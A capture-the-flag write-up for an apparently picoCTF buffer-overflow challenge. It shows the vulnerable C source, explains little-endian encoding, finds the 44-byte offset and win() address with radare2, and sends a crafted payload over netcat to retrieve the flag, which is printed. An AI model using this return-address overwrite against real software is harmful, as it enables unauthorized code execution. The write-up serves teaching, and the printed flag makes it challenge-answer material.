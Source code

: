 ## Looking at Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

I started by looking at the main function. No need to worry aobut `getegid` and `setresgid`.

We start by noticing that it outputs "Please enter your string: " then calls `vuln()`. Within `vuln()` we see that a string of size `BUFFER` is defined, and then there's a `gets` call, this is our vulnerable function call.



## Little Endian

The way I view it is to "flip the order but in chunks (bytes)" what do I mean by this? If I said reverse `0x12345678`, you'd do `0x87654321`, this is NOT little endian. The little endian representation of `0x12345678` would be `0x78563412`. So it's similar to reversing the order, but you're reversing it in chunks (the chunk size being 1 byte).

## ASCII to Hex, + Little Endian

What's ABCD in ASCII? A = 0x41, B  = 0x42, etc so ABCD = 0x41424344

However, if we were to represent ABCD in little endian, it would be done as follows:

0x44434241. Why? Recall that we're flipping it in chunks of size 1 byte. The letter `D` is 1 byte in size, as it's 0x44.



```bash
$ python2 -c "print('A' * 40 + 'ABCD')" 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
$ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
Okay, time to return... Fingers Crossed... Jumping to 0x8049300
Segmentation fault (core dumped)
```

We didn't overwrite the address yet!

```bash
$ python2 -c "print('A' * 48 + 'ABCD')" 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
$ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault (core dumped)
```

Too far! Notice how it says it's jumping to `0x41414141`, recall that 0x41 is the ASCII representation of `A`, we've overwritten the address so far that it contains only our A's

```bash
$ python3 -c "print('A' * 44 + 'ABCD')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
$ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
Okay, time to return... Fingers Crossed... Jumping to 0x44434241
Segmentation fault (core dumped)
```

We made it! How do I know? It says it's jumping to `0x44434241` which is "DCBA"

So now we want to put in our desired address. 

I'll cover 2 approaches to finding the Return Address. Both approaches include using other software, both of these are used to *reverse engineer* programs.

## Ghidra

- Open up ghidra and create a new project (or open an old one).
- Import the `vuln` executable file into ghidra
- Go to functions and see the address of our `win` function

## Radare2

I always turn to the lovely [cheatsheet](https://scoding.de/uploads/r2_cs.pdf)

I know that the function is called `win()`, so I want to make it list functions using `afl`, but nothing comes up. Why? Because we haven't analyzed the program yet. It's like opening code, not running it, and then expecting to call a function successfully.

Hence, we start by analysing all.  Check the cheatsheet, the command is`aa`. Then try calling `afl` again.

Check it out, now that we've analyzed the file, radare2 has detected functions for us.

```
[0x080490e0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x080490e0]> afl
0x080490e0    1 54           entry0
0x08049117    1 4            fcn.08049117
0x080490a0    1 6            sym.imp.__libc_start_main
0x08049140    4 49   -> 40   sym.deregister_tm_clones
0x08049180    4 57   -> 53   sym.register_tm_clones
0x080491c0    3 41   -> 34   sym.__do_global_dtors_aux
0x080491f0    1 6            entry.init0
0x080493c0    1 5            sym.__libc_csu_fini
0x08049130    1 4            sym.__x86.get_pc_thunk.bx
0x080493c5    1 4            sym.__x86.get_pc_thunk.bp
0x08049281    1 67           sym.vuln
0x08049050    1 6            sym.imp.gets
0x0804933e    1 4            loc.get_return_address
0x08049040    1 6            sym.imp.printf
0x080493cc    1 24           sym._fini
0x08049350    4 101          sym.__libc_csu_init
0x080491f6    3 139          sym.win
0x080490c0    1 6            sym.imp.fopen
0x08049090    1 6            sym.imp.exit
0x08049060    1 6            sym.imp.fgets
0x08049120    1 5            sym._dl_relocate_static_pie
0x080492c4    1 122          main
0x080490b0    1 6            sym.imp.setvbuf
0x08049070    1 6            sym.imp.getegid
0x080490d0    1 6            sym.imp.setresgid
0x08049080    1 6            sym.imp.puts
0x08049000    3 36           sym._init
```

Look at `sym.win`, that's the name of our function! (Recall that we looked at the source code and identified `win` as the function that we want t orun) We can then see that it's at address `0x080491f6`. 


Ok! With the return address lets put it into the program. 

```bash
$ python2 -c "print('A' * 44 + '\xf6\x91\x04\x08')" > out
$ ./vuln < out
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
HELLO WELL DONE
Segmentation fault (core dumped)
```

Here you can see that I'm piping the output of the python program into a file called `out`, why am I doing this? If you try to represent the address using ascii, you'll realize that there's no ascii representation. So there's no way we can type in our desired address via our keyboard.

I wrote "HELLO WELL DONE" into flag.txt, so what the program did was it printed the contents of flag.txt, which means it worked! 

So now we just put it into the netcat instead

```bash
$ nc saturn.picoctf.net 61685 < out
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_2e53b270}
```

Done, we got our flag:

`picoCTF{addr3ss3s_ar3_3asy_2e53b270}`

